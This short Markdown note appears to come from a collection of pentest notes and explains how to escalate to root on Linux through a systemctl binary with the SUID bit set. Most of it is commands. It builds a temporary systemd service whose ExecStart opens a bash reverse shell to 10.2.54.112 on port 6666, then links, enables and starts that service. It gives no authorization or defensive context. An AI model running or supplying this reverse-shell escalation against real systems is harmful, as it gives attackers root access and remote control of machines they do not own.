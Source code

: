 If we have a `Systemctl` command with enabled SUID bit we can exploit it to get a root shell using the following command:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.2.54.112/6666 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
#then we can use either these commands to start the service
systemctl link $TF
systemctl enable --now $TF
# or these
systemctl enable $TF
systemctl start <filename without path)>
```

**Important Note: if we want to run the service once again, we can use the following command:**

```bash
echo $TF #to get the file name and path, then we run the file but without the path
systemctl start <filename without path>
```
